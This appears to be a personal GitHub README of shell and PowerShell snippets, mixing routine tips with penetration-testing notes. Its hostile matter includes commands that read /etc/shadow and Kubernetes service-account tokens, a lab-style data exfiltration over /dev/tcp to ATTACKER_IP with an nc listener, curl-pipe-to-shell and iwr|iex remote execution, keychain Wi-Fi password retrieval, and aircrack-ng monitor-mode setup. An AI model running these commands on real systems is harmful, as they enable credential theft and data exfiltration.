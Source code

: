# knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 
---
    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
---
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

who
last
sudo journalctl -u ssh --since "200 days ago"
sudo cat /var/log/auth.log | grep "Failed password"
history

sudo netstat -tulnp
sudo ss -tulwn
sudo netstat -anp | grep ESTABLISHED
sudo journalctl -u ssh | grep "Accepted"

ls /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

### Cool But Insecure Way To Execute Scripts 💩
---
Powershell

    iwr -useb https://something.com/psscript.ps1 | iex

Bash

    curl https://something.com/bashscript.sh | sh

### BASE64 
--- 

Convert to Base64

    [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("roman"))      

Results:

	cm9tYW4=

Decode from Base64

    [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('cm9tYW4='))

Results:

	Roman

### Secret Key
--- 
Generate a suitable string for ```SECRET_KEY``` using ```openssl rand -hex 32``` from your shell.


### Aircrack-ng 
--- 
	sudo apt update
	sudo apt install aircrack-ng
	iwconfig # Take note of the interface you want to monitor on
	sudo airmon-ng check kill
	sudo airmon-ng
	sudo airmon-ng start wlx1xxxxxxx
	sudo airmon-ng wlan0mon
	sudo systemctl restart NetworkManager
